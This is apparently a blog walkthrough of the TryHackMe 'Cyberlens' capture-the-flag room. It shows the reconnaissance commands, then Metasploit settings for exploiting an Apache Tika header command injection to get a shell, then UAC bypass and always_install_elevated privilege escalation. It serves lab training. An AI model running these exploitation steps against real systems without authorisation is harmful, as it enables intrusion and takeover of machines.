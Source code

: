 ```yaml
---
title: "THM: Cyberlens"
date: 2025-03-04
categories: [CTF, Red Team]
tags: [CTF, Red Team]
permalink: /posts/ctf-cyberlens
image:
  path: /assets/img/thumbnails/ctf-cyberlens.png
---
```




### **Walkthrough**

#### **CTF Platform**: TryHackMe  
#### **Level**: Easy  

#### **Tools Used**:

  - Nmap  
  - Gobuster  
  - Exiftool  
  - Metasploit  
  - Searchsploit  
  - Developer Tools (Network Tab)

#### **Resources Used:**:

  - [Tryhackme](https://tryhackme.com/room/cyberlensp6)
  - [Nmap Documentation](https://nmap.org/book/man.html)  
  - [Gobuster GitHub Repository](https://github.com/OJ/gobuster)  
  - [Metasploit Framework](https://www.metasploit.com/)  
  - [Searchsploit Documentation](https://www.exploit-db.com/searchsploit) 


## **Steps for the CTF**

---


### Step 1: Initial Reconnaissance
After starting the machine, I explored the website hosted on the target system. While browsing, I didn’t immediately find any actionable information. To gather more details about the services running on the machine, I performed a port scan using **Nmap**.

#### Command:
```bash
nmap -sV -sC -A -T4 -oN scan_result.md <ip>
```

#### Explanation:
The above command performs a comprehensive scan of the target IP. It identifies open ports, service versions, and runs default scripts to gather additional information. Use the output to identify potential attack vectors.

---

### Step 2: SMB Enumeration
I attempted to exploit the machine using **smbclient**, but this approach did not yield any fruitful results. If you're attempting this step, ensure you test for SMB vulnerabilities such as misconfigurations or anonymous access.

---

### Step 3: Directory Enumeration
Realizing that SMB wasn’t yielding results, I turned to directory enumeration using **Gobuster**.

#### Command:
```bash
gobuster dir -u http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster_dirs.txt
```

#### Explanation:
This command scans the web server for hidden directories and files. Analyze the discovered paths to identify potential points of interest. In my case, I found several directories containing image files.

---

### Step 4: Image Metadata Analysis
Among the discovered directories, I downloaded some image files and analyzed their metadata using **exiftool**. Unfortunately, this approach didn’t reveal anything significant. However, always check metadata for hidden clues such as comments, geolocation, or embedded scripts.

---

### Step 5: Revisiting the Room Description
At this point, I realized I had made a mistake in my approach. I returned to the room description and carefully re-read it. This helped me understand that I had been going down the wrong path. With this new perspective, I adjusted my strategy.

#### Key Insight:
The description mentioned adding an entry to the `/etc/hosts` file. After making this change, I resumed exploring the website. This adjustment revealed a new button that allowed me to upload files.

---

### Step 6: File Upload Functionality
With the file upload feature now accessible, I decided to upload an image to test the functionality. Then, I monitored the network traffic using the Developer Tools’ Network tab.

#### Observation:
I observed traffic on port **61777**. Further investigation revealed that the server was using **Apache Tika**.

---

### Step 7: Exploiting Apache Tika
I searched for vulnerabilities related to Apache Tika using **searchsploit**. A **Header Command Injection** vulnerability was identified, which could be exploited using **Metasploit**.

#### Steps:
1. Open **msfconsole**.
2. Search for the Apache Tika exploit:
   ```bash
   search apache tika
   ```
3. Configure the exploit with the following settings:
   ```bash
   set RHOSTS <Target IP>
   set RPORT 61777
   set LHOST <Your VPN IP>
   ```
4. Run the exploit.

#### Outcome:
Successfully executing the exploit granted me a shell on the target system. I confirmed my location using the `pwd` command and found myself in the `/c:/windows/system32` directory.

---

### Step 8: Capturing the User Flag
I navigated to the **Users** directory and accessed the **cyberlens** user’s Desktop, where I found the first flag.

#### Commands:
```bash
cd /Users/cyberlens/Desktop
cat user.txt
```

---

### Step 9: Privilege Escalation
To escalate privileges and obtain the admin flag, I backgrounded my current session and searched for privilege escalation exploits.

#### Steps:
1. Background the current session:
   ```bash
   background
   ```
2. Search for UAC bypass exploits:
   ```bash
   search bypassuac
   ```
3. Configure and run the exploit:
   ```bash
   set SESSION 1
   set LHOST <Your VPN IP>
   run
   ```
4. Once the session is elevated, use the **local_exploit_suggester** module to identify potential privilege escalation exploits:
   ```bash
   run multi/recon/local_exploit_suggester
   ```
5. Exploit the suggested vulnerability (e.g., **always_install_elevated**):
   ```bash
   use exploit/windows/local/always_install_elevated
   ```

#### Final Steps:
Navigate to the Administrator’s Desktop and retrieve the admin flag:
```bash
cd /c:/Users/Administrator/Desktop
cat admin.txt
```
